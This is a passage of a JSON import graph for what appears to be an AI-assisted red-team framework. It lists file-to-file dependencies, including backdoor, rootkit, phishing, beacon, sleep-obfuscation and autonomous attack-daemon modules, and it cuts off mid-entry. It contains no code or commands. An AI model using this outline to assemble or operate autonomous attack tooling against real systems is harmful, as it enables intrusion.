{"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "core/terminal_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/jsonl_tail.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/custom_tools.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "modules/lazy_sandbox.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "cli/lazy_monitor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_sandbox.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyown_bprfuzzer.py", "target": "modules/security_sanitizers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyown_bprfuzzer.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyown_bridge.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyown_bridge.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyownerweb.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyownerweb.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazyownerweb.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lesson_ingestor.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lesson_ingestor.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lesson_ingestor.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lilsplunky.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lilsplunky.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lilsplunky.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lilsplunky.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/listener_manager.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/live_surface.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/live_surface.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_adapter.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_adapter.py", "target": "contrib/legacy/lazydeepseekcli.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_adapter.py", "target": "contrib/legacy/lazyphishingai.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_adapter.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_adapter.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_client.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_client.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_client.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_factory.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_factory.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_factory.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_factory.py", "target": "modules/llm_client.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_factory.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/llm_prompts.py", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/logging_config.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_ai_bridge.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/loop_progress.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/mcp_agent_bridge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/mcp_agent_bridge.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/metrics.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/module_registry.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/moe_router.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/moe_router.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/moe_router.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/obs_parser.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/obs_parser.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/obs_parser.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operation.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operation.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operation.py", "target": "modules/apt_playbooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operation.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operation.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operation.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operator_profiles.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/operator_profiles.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/opsec_scorer.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/opsec_scorer.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/opsec_scorer.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/opsec_scorer.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/opsec_scorer.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/orchestrator_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/orchestrator_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/orchestrator_config.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/phishing_orchestrator.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/phishing_orchestrator.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/phishing_orchestrator.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/phishing_orchestrator.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/pipeline_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/pipeline_engine.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/pipeline_engine.py", "target": "modules/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/planner.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/planner.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/planner.py", "target": "modules/llm_client.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/planner.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/planner.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_engine.py", "target": "modules/llm_client.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_engine.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_engine.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_engine.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/playbook_executor.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/privesc_predictor.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/privesc_predictor.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/professional_report.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/reactive_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/reactive_engine.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/reactive_engine.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/reactive_engine.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/recommender.py", "target": "modules/ai_fallback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/recommender.py", "target": "modules/session_state.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/redteam_gym.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/redteam_gym.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/resource_script.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rich_tui.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rich_tui.py", "target": "modules/dashboard_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rich_tui.py", "target": "modules/dashboard_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rl_trainer.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rl_trainer.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rootkit/rootkit.c", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/rootkit/rootkit.c", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/session_rag.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/sleep_obfuscation.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/sleep_obfuscation.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/socks_proxy.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/socks_proxy.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/state_manager.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/state_manager.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/state_manager.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/state_manager.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/sudo_tiocsti.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/test_lazyencoder_decoder.py", "target": "modules/lazyencoder_decoder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/threat_model.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/timeline_narrator.py", "target": "modules/ai_fallback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/loop_smoke.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/loop_smoke.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/loop_smoke.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/loop_smoke.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/loop_smoke.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/loop_smoke.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/monitor_smoke.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/monitor_smoke.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/tools/monitor_smoke.py", "target": "cli/lazy_monitor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/toposwarm_bridge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/toposwarm_bridge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ttp_coverage.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/mcp_agent_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_bridge.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "modules/live_surface.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "modules/dashboard_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/unified_dashboard.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vuln_bot_cli.py", "target": "modules/vulnbot.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vulnbot.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vulnbot.py", "target": "modules/agent_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vulnbot.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vulnbot.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vulnbot.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/vulnbot.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/websocket_beacon.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/world_model.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/world_model.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/world_model.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/yaml_generator.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/yaml_generator.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/__main__.py", "target": "poc_tui/app.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/app.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/app.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/app.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/plugin_loader.py", "target": "poc_tui/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/run.py", "target": "poc_tui/app.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "poc_tui/test_app.py", "target": "poc_tui/app.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "pwntomate.py", "target": "skills/claude_md_orchestrator/parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "pwntomate.py", "target": "modules/security_sanitizers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/devtools/command_audit.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/devtools/core_smoke.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/devtools/core_smoke.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/devtools/core_smoke.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/devtools/core_smoke.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/devtools/core_smoke.py", "target": "modules/payload_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "scripts/read_journal.py", "target": "scripts/journal.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/aci_planner.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/aci_planner.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/toolset.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/goals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/event_consumers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/asset_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/lazyown_llm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/toolset.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/autonomous_daemon.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", 